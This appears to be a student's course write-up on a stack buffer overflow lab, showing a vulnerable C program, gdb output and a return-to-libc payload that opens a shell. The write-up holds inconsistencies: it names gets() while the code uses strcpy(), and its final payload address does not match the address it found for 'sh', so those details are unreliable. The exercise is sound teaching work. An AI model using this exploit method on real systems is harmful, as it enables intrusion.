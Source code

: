 
#Task 1
###Task 1.1 Vulnerable Program (5 points)
The initial task was to write a C/C++ program that contains a stack buffer overflow vulnerability. ```overflowable.c``` detailed below contains a vulnerability since it utilizes the vulnerable and depreceated ```gets()``` command.  This command does not check the size of the input against the size of what the buffer is.
######overflowable.c

```c
#include <stdio.h>
#include <strings.h>

int main(int argc, char *argv[]){
    char buffer[8];
    strcpy(buffer,argv[1]);
};
```
#####Compile Instructions
```sh
$ gcc overflowable.c -o overflowable -fno-stack-protector
```

####Task 1.2 Stack Layout (25 points)
Note: the stack layout should contain the following contents:
- Stack layout (5 points)
- High and low address of stack, stack grows direction (5 points)
- Size of each part on the stack (5 points)
- Content of each part of the stack (5 points)
- Overflowed area of the stack (5 points)

#####Prior to overflow:

![http://imgur.com/a/JoZV8](http://i.imgur.com/BxQlUpF.jpg)

#####After overflow: (to show overflowed area of the stack)

![http://imgur.com/a/JoZV8](http://i.imgur.com/h3S1iXe.jpg)

###Task 1.3 Exploiting Explanation (10 points)

To exploit the stack we must first figure out how to cause the program to crash.  It is easy to do this by inputing the following test procedures:

![crashing the program]()

After causing the program to crash, you must then try to find what the proper input to completely overide the return address.  I accomplished this by adding ```0``` onto the tail of my input.  The result from running the program should be something like ```Program received signal SIGSEGV, Segmentation fault. 0x30303030 in ?? ()```.  The reason that we are looking for ```0x30303030``` is the in ```ASCII``` the hex for ```0``` is ```30``` and we are looking for all 4.  The Steps below show how to accomplish this:

![crafting your input]()

To exploit we want the system to open a shell.  To do this we must develop shell code that will place the code we are trying to execute into the buffer we are overflowing and overwrite the return address so it points back into the buffer.  

To do this we must locate where the ```system``` call resides on our machine.  The following steps were outlined on a Piazza thread [here](https://piazza.com/class/ij905n686w44wb?cid=69)

```
(gdb) b main
Breakpoint 1 at 0x8048420
(gdb) r
Starting program: /home/ubuntu/CS6035/project1/overflowable 

Breakpoint 1, 0x08048420 in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7e56190 <__libc_system>
(gdb) 
```

When we issue the ```(gdb) print system``` command when the program is running we are given ```0xb7e56190``` as the location for the system command.  

To locate the location of a ```sh``` string to inject we search for ```sh``` in memory.  We dump the files that have symbols from out program and do a search across their memory by ```(gdb) find addr1,addr2,"sh"```

```
(gdb) info files
Symbols from "/home/ubuntu/CS6035/project1/overflowable".
Unix child process:
	Using the running image of child process 2771.
	While running this, GDB does not access memory from...
Local exec file:
	`/home/ubuntu/CS6035/project1/overflowable', file type elf32-i386.
	Entry point: 0x8048320
	0x08048154 - 0x08048167 is .interp
	0x08048168 - 0x08048188 is .note.ABI-tag
	0x08048188 - 0x080481ac is .note.gnu.build-id
	0x080481ac - 0x080481cc is .gnu.hash
	0x080481cc - 0x0804821c is .dynsym
	0x0804821c - 0x08048268 is .dynstr
	0x08048268 - 0x08048272 is .gnu.version
	0x08048274 - 0x08048294 is .gnu.version_r
	0x08048294 - 0x0804829c is .rel.dyn
	0x0804829c - 0x080482b4 is .rel.plt
	0x080482b4 - 0x080482d7 is .init
	0x080482e0 - 0x08048320 is .plt
	0x08048320 - 0x080484b2 is .text
	0x080484b4 - 0x080484c8 is .fini
	0x080484c8 - 0x080484d0 is .rodata
	0x080484d0 - 0x080484fc is .eh_frame_hdr
	0x080484fc - 0x080485ac is .eh_frame
	0x08049f08 - 0x08049f0c is .init_array
	0x08049f0c - 0x08049f10 is .fini_array
	0x08049f10 - 0x08049f14 is .jcr
	0x08049f14 - 0x08049ffc is .dynamic
	0x08049ffc - 0x0804a000 is .got
	0x0804a000 - 0x0804a018 is .got.plt
	0x0804a018 - 0x0804a020 is .data
	0x0804a020 - 0x0804a024 is .bss
	0xb7fde114 - 0xb7fde138 is .note.gnu.build-id in /lib/ld-linux.so.2
	0xb7fde138 - 0xb7fde1f8 is .hash in /lib/ld-linux.so.2
	0xb7fde1f8 - 0xb7fde2dc is .gnu.hash in /lib/ld-linux.so.2
	0xb7fde2dc - 0xb7fde4ac is .dynsym in /lib/ld-linux.so.2
	0xb7fde4ac - 0xb7fde642 is .dynstr in /lib/ld-linux.so.2
	0xb7fde642 - 0xb7fde67c is .gnu.version in /lib/ld-linux.so.2
	0xb7fde67c - 0xb7fde744 is .gnu.version_d in /lib/ld-linux.so.2
	0xb7fde744 - 0xb7fde7b4 is .rel.dyn in /lib/ld-linux.so.2
	0xb7fde7b4 - 0xb7fde7e4 is .rel.plt in /lib/ld-linux.so.2
	0xb7fde7f0 - 0xb7fde860 is .plt in /lib/ld-linux.so.2
	0xb7fde860 - 0xb7ff67ac is .text in /lib/ld-linux.so.2
	0xb7ff67c0 - 0xb7ffa7a0 is .rodata in /lib/ld-linux.so.2
	0xb7ffa7a0 - 0xb7ffae24 is .eh_frame_hdr in /lib/ld-linux.so.2
	0xb7ffae24 - 0xb7ffd71c is .eh_frame in /lib/ld-linux.so.2
	0xb7ffecc0 - 0xb7ffef34 is .data.rel.ro in /lib/ld-linux.so.2
	0xb7ffef34 - 0xb7ffefec is .dynamic in /lib/ld-linux.so.2
	0xb7ffefec - 0xb7ffeff8 is .got in /lib/ld-linux.so.2
	0xb7fff000 - 0xb7fff024 is .got.plt in /lib/ld-linux.so.2
	0xb7fff040 - 0xb7fff878 is .data in /lib/ld-linux.so.2
---Type <return> to continue, or q <return> to quit---
	0xb7fff878 - 0xb7fff938 is .bss in /lib/ld-linux.so.2
	0xb7e16174 - 0xb7e16198 is .note.gnu.build-id in /lib/i386-linux-gnu/libc.so.6
	0xb7e16198 - 0xb7e161b8 is .note.ABI-tag in /lib/i386-linux-gnu/libc.so.6
	0xb7e161b8 - 0xb7e19ec8 is .gnu.hash in /lib/i386-linux-gnu/libc.so.6
	0xb7e19ec8 - 0xb7e23438 is .dynsym in /lib/i386-linux-gnu/libc.so.6
	0xb7e23438 - 0xb7e2915e is .dynstr in /lib/i386-linux-gnu/libc.so.6
	0xb7e2915e - 0xb7e2a40c is .gnu.version in /lib/i386-linux-gnu/libc.so.6
	0xb7e2a40c - 0xb7e2a898 is .gnu.version_d in /lib/i386-linux-gnu/libc.so.6
	0xb7e2a898 - 0xb7e2a8d8 is .gnu.version_r in /lib/i386-linux-gnu/libc.so.6
	0xb7e2a8d8 - 0xb7e2d2e8 is .rel.dyn in /lib/i386-linux-gnu/libc.so.6
	0xb7e2d2e8 - 0xb7e2d348 is .rel.plt in /lib/i386-linux-gnu/libc.so.6
	0xb7e2d350 - 0xb7e2d420 is .plt in /lib/i386-linux-gnu/libc.so.6
	0xb7e2d420 - 0xb7f5eb6e is .text in /lib/i386-linux-gnu/libc.so.6
	0xb7f5eb70 - 0xb7f5fafb is __libc_freeres_fn in /lib/i386-linux-gnu/libc.so.6
	0xb7f5fb00 - 0xb7f5fcfe is __libc_thread_freeres_fn in /lib/i386-linux-gnu/libc.so.6
	0xb7f5fd00 - 0xb7f81754 is .rodata in /lib/i386-linux-gnu/libc.so.6
	0xb7f81754 - 0xb7f81767 is .interp in /lib/i386-linux-gnu/libc.so.6
	0xb7f81768 - 0xb7f88c0c is .eh_frame_hdr in /lib/i386-linux-gnu/libc.so.6
	0xb7f88c0c - 0xb7fb9f68 is .eh_frame in /lib/i386-linux-gnu/libc.so.6
	0xb7fb9f68 - 0xb7fba3c6 is .gcc_except_table in /lib/i386-linux-gnu/libc.so.6
	0xb7fba3c8 - 0xb7fbd928 is .hash in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe1d4 - 0xb7fbe1dc is .tdata in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe1dc - 0xb7fbe220 is .tbss in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe1dc - 0xb7fbe1e8 is .init_array in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe1e8 - 0xb7fbe260 is __libc_subfreeres in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe260 - 0xb7fbe264 is __libc_atexit in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe264 - 0xb7fbe274 is __libc_thread_subfreeres in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe280 - 0xb7fbfda8 is .data.rel.ro in /lib/i386-linux-gnu/libc.so.6
	0xb7fbfda8 - 0xb7fbfe98 is .dynamic in /lib/i386-linux-gnu/libc.so.6
	0xb7fbfe98 - 0xb7fbfff4 is .got in /lib/i386-linux-gnu/libc.so.6
	0xb7fc0000 - 0xb7fc003c is .got.plt in /lib/i386-linux-gnu/libc.so.6
	0xb7fc0040 - 0xb7fc0ebc is .data in /lib/i386-linux-gnu/libc.so.6
	0xb7fc0ec0 - 0xb7fc3a7c is .bss in /lib/i386-linux-gnu/libc.so.6
(gdb) Quit
(gdb) find 0x08048154,0xb7fc3a7c,'sh'
Invalid character constant.
(gdb) find 0x08048154,0xb7fc3a7c,"sh"
warning: Unable to access 16002 bytes of target memory at 0x8048154, halting search.
Pattern not found.
(gdb) find 0xb7fde114,0xb7fc3a7c,"sh"
Invalid search space, end precedes start.
(gdb) find 0xb7fde7f0,0xb7fc3a7c,"sh"
Invalid search space, end precedes start.
(gdb) find 0xb7fde114,0xb7fc3a7c,"sh"
Invalid search space, end precedes start.
(gdb) find 0x08048154,0xb7fc3a7c,"sh"
warning: Unable to access 16002 bytes of target memory at 0x8048154, halting search.
Pattern not found.
(gdb) find 0xb7fde7f0, 0xb7fff938, "sh"
0xb7ff7e5c <__PRETTY_FUNCTION__.9595+12>
0xb7ffde11
0xb7ffee11 <_rtld_global_ro+241>
3 patterns found.
```

3 patterns were found so we use the ```gdb x/e`` command to investigate those memory locations to see what is contained

```
(gdb) x/s 0xb7ffde11
0xb7ffde11:	"sh"
```

The ```sh``` has been found!

So our two important addresses are 

- ```sh``` at ```0xb7ffde11```
- ```system``` at ```0xb7e56190```

To craft the shellcode, add these commands in place of our ```0000``` that were on the original overflow string so it looks as follows:


```12345678123456781234``` + the shellcode for system() + ```\xb7\xe5\x61\x90``` + ```a dumb return address``` + the location for ```sh``` ```\xb7\xff\xde\x11```

But do to the way these are pushed onto the stack, we need to reverse them and it becomes:

```12345678123456781234``` + the shellcode for system() +```\x90\x61\xe5\xb7``` + ```a dumb return address``` + the location for ```sh``` ```\x11\xde\xff\xb7``` 


or in total ```12345678123456781234\x90\x61\xe5\xb7RETA\xf5\x40\xf7\xb7```

# Task 2:

###Task 2.1 Buffer overflow detection data craft and overflow proof in GDB (10 points)
###Task 2.2. Locate system() address in GDB (10 points)
###Task 2.3. Locate /bin/sh address in GDB(10 points)
###Task 2.4. Correct exploit payload in data.txt and being able to open the shell in terminal(30
points)

